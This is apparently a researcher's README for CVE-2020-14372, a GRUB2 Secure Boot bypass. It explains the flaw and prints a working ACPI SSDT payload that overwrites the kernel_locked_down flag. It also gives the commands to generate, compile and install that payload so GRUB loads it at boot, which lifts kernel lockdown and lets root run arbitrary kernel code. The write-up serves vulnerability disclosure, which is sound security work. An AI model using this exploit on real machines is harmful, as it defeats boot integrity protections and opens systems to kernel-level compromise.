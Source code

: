 # CVE-2020-14372: Bypassing (not so) Secure Boot with one "simple trick"

## Vulnerability details

One day I typed "help" into GRUB2's console and saw some really "fun"
commands:

* read_byte ADDR:      Read 8-bit value from ADDR
* write_byte ADDR VAL: Write 8-bit value VAL to ADDR

I immediately thought I found the most fun Secure Boot bypass, but these
commands output the following under Secure Boot:
```
error: Secure Boot forbids loading module .../memrw.mod.
```

Out of curiosity, booted this way I typed the "acpi" command, and it printed
a usage message telling me to point it to an AML file. It's well-known that
another name for ACPI is a "mechanism to run arbitrary vendor provided code
in the context of your kernel", since we can load ACPI tables with Secure Boot
enabled, we are the "vendor" who can provide that code.

But since there is a one-byte flag (kernel_locked_down) in the data segment of
the booted kernel telling it whether or not its "locked down", we can just
overwrite that flag using an SSDT and let the kernel load arbitrary modules.

The following SSDT accomplishes this by creating a "battery" object called `HACK`,
and doing the write in said object's `_INI` method which is always executed by
the kernel:
```
DefinitionBlock ("trigger.aml", "SSDT", 2, "", "", 0x00001001)
{
  OperationRegion (KMEM, SystemMemory, ADDRESS_GOES_HERE, 4)
  Field (KMEM, DWordAcc, NoLock, WriteAsZeros)
  {
    LKDN, 32
  }
  Device (\_SB_.HACK)
  {
    Name(_HID, EisaId ("PNP0C0A"))
    Name(_UID, 0x02)
    Method(_INI)
    {
      If (LKDN)
      {
        LKDN = Zero
      }
    }
  }
}
```

I wrote a proof of concept exploit in Python that helps with generating this SSDT,
but exploting this by hand is not that difficult either. The rough outline is as
follows:

1. Disable KASLR by adding `nokaslr` to the kernel command line
2. Find the **physical** address of the `kernel_locked_down` symbol after booting
   without KASLR
3. Insert the address into the SSDT above, than compile that SSDT using `iasl`
4. Finally instruct GRUB2 to load the SSDT

## How to use the PoC

Assumptions:

- The attacker has `root` access to the running operating system
- Linux is booted under UEFI Secure Boot with GRUB2 version <=2.02
  (some builds of 2.02 are patched), this will cause kernel lockdown to be enabled

When the above assumptions are met, edit `/etc/default/grub`, add `nokaslr`
to `GRUB_CMDLINE_LINUX_DEFAULT`, run `update-grub`, and then finally reboot.

After the kernel is booted without address space layout randomization, the
`genssdt.py` script can be used to generate a "malicious" SSDT that will patch
the kernel's memory at runtime to disable lockdown:

```
python3 genssdt.py > trigger.dsl
iasl trigger.dsl
cp trigger.aml /boot/efi/evil_ssdt.aml
```

Now that the SSDT was created, the GRUB configuration file
(usually at `/boot/grub/grub.cfg`) must be edited to make GRUB load this SSDT
(adding this to the top of this file):

```
acpi (hd0,gpt1)/evil_ssdt.aml
```

Based on where the EFI system partition (where we placed the SSDT above) resides
on disk, `(hd0,gpt1)` might need to be replaced with something else.

Finally after a reboot, kernel lockdown should be disabled, giving `root` the
ability to execute arbitrary code in the kernel.
